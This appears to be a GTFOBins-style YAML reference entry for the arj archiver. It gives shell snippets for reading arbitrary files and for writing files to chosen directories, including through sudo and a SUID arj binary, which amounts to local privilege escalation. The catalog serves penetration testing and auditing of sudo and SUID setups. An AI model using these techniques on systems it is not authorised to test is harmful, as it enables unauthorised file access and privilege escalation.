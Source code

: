 functions:
  file-read:
    - description: The file appears amid some other textual information. The archive can also be downloaded then extracted offline.
      code: |
        TF=$(mktemp -u)
        LFILE=file_to_read
        arj a "$TF" "$LFILE"
        arj p "$TF"
  file-write:
    - description: The archive can also be prepared offline then uploaded.
      code: |
        TF=$(mktemp -d)
        LFILE=file_to_write
        LDIR=where_to_write
        echo DATA >"$TF/$LFILE"
        arj a "$TF/a" "$TF/$LFILE"
        arj e "$TF/a" $LDIR
  sudo:
    - description: The archive can also be prepared offline then uploaded.
      code: |
        TF=$(mktemp -d)
        LFILE=file_to_write
        LDIR=where_to_write
        echo DATA >"$TF/$LFILE"
        arj a "$TF/a" "$TF/$LFILE"
        sudo arj e "$TF/a" $LDIR
  suid:
    - description: The archive can also be prepared offline then uploaded.
      code: |
        TF=$(mktemp -d)
        LFILE=file_to_write
        LDIR=where_to_write
        echo DATA >"$TF/$LFILE"
        arj a "$TF/a" "$TF/$LFILE"
        ./arj e "$TF/a" $LDIR
---
